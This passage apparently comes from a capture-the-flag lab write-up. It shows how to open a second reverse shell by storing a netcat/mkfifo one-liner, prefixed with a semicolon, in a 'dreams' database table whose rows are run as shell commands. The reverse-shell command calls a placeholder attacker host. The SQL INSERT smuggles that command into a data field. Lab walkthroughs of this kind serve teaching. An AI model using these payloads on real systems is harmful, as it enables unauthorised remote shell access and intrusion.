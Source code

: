 We need to first make another rev shell using the same generator with a new port this time.

{% embed url="https://www.revshells.com/" %}

{% code overflow="wrap" %}
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
```
{% endcode %}

Let's craft a SQL payload that will add this revshell to our database.\
Since each line is executed as a shell command let's try to use this format in the table

#### Dream becomes : ";revshell"

We will use the ; to follow the command and run our reverse shell.

Now Let's look at how to add an input to the table:

{% code overflow="wrap" %}
```sql
INSERT INTO dreams (dreamer, dream) 
VALUES ('<value1>', '<value2>');
```
{% endcode %}

Let's use this and put whatever in value1 for the dreamer and the revshell in our format in the dream

{% code overflow="wrap" %}
```sql
INSERT INTO dreams (dreamer, dream) 
VALUES ('test1', ';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f ');
```
{% endcode %}

{% hint style="info" %}
Make sure to change the Attacker IP and PORT
{% endhint %}

Let's use it and Select our table to see the result

```sql
SELECT * FROM dreams;
```

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
